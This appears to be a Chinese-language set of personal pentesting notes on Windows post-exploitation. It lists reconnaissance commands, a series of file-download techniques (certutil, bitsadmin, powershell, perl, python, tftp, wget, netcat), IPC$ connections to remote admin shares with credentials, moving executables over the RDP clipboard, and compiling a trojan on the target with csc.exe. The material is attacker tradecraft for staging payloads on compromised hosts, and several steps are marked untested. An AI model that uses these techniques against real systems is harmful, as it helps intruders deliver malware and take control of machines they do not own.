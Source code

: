 js和certutil,bitsadmin,vbs



识别英文操作系统名称及版本   ```systeminfo | findstr /B /C:"OS Name" /C:"OS Version"```

别中文操作系统名称及版本     ```systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"``` 

                            ```
                            OS 名称:          Microsoft Windows 10 旗舰版
                            OS 版本:          10.0.14393 N/A Build 14393
                            ```

识别系统体系结构            ```echo %PROCESSOR_ARCHITECTURE% ```

                           ```AMD64```
                           
查看某特定用户信息          ```net user XXX```

查看路由表信息route print

查看ARP缓存信息 arp -A 

查看防火墙规则：

``` netstat -ano ```
``` netsh firewall show config ```
```netsh firewall show state ```

具体参考[Windows内网渗透提权的几个实用命令](https://www.freebuf.com/articles/system/114731.html)

https://www.jianshu.com/p/502441bcebe0   15种下载

win7测试下载https会报错，提醒我丢失libeay_32.dll，libeay32.dll是OpenSSL所用动态链接库

```perl -MLWP::Simple -e "getstore ('http://www.163.com/','163.html')"```

测试失败 ```perl -MLWP::Simple -e "getstore ('https://raw.githubusercontent.com/3gstudent/test/master/version.txt','163.txt')"```

```perl -e "print 'Hello World \n'"```   

downloader常用方法如下：

certUtil
powershell
csc
vbs
JScript
hta
bitsadmin
wget
debug
ftp
ftfp


python cmd 下载文件

```python -c "import urllib2;u=urllib2.urlopen('https://raw.githubusercontent.com/3gstudent/test/master/version.txt');localfile=open('a.txt','w');localfile.write(u.read());localfile.close();"```


httpdownload.rb 可用ruby 下载 http链接的文件，https暂不知道下载方法  ```$ruby httpdownload.rb ```


php 下载代码有问题
```
<?
$data = @file("http://txt.bookdown.net/home/down/txt/id/625");
$f = fopen("1.txt", "w");
fwrite($f, $data[0]);
fclose($f);
?>
```

windows7 下默认是没有tftp的，可以WIN+R，然后输入appwiz.cpl，点击左侧的打开或关闭windows功能后，选中TFTP客户端即可启用TFTP客户端。

(未测试)

```tftp -i host(本地ip,可以是127.0.0.1) GET 1.py(用于保存在本地的文件名) 远程ip\1.py(远程tftp服务器上的文件)```

wget http://192.168.43.68:8000/1.py  cmd默认未安装


netcat 文件下载(未测试)
攻击者在linux下输入命令

cat file|nc -l 1234
这样把文件file的内容重定向到了攻击者的1234端口，无论谁访问攻击者的ip的这个端口，都能下载到文件了

nc host_ip 1234 > file

建立IPC$连接
IPC$是Windows系统特有的一项管理功能，是微软公司为了方便用户使用计算机而设计的，主要用来远程管理计算机的。
net use \\192.168.1.41\ipc$ 123123 /user:Lee   
通过建立IPC$连接与远程主机实现通信和控制

下面的操作需要管理员权限，只有管理员能够对他们进行远程操作
net use x: \\192.168.1.41\e$
打开“我的电脑”，会发现多出一个x盘，上面写着“C$位于192.168.1.41上”，该磁盘即为目标主机的e盘

net use * /del  断开所有IPC$连接

[IPC连接](https://blog.csdn.net/flyingleo1981/article/details/18763229)

Notepad 文件下载
这个姿势很神奇。
首先打开notepad，就是我们常说的记事本，点击文件-》打开，在文件名称内输入完整的URL，回合，就会发现记事本中的内容就是我们访问的URL的文本内容。

powershell nishang 进行文件下载

这里我们可以用ExeToText脚本，将想要下载的exe文件转换成txt，在用记事本打开，然后复制其中的内容，通过rdp剪贴板复制到目标机器上的txt文本，再通过TextToExe脚本转换为exe就好了。

csc.exe工具
在Windows下，c的编译器默认是在C:\Windows\Microsoft.NET\framework\

version的话，不同位数的机器不一样，看情况而定

进入不同版本version文件夹，

C#命令行编辑器csc.exe  将木马的源码写好，直接在目标及其上编译就好了

csc.exe /out:c:\users\pino\evil.exe c:\users\pino\evil.c   (未测试)


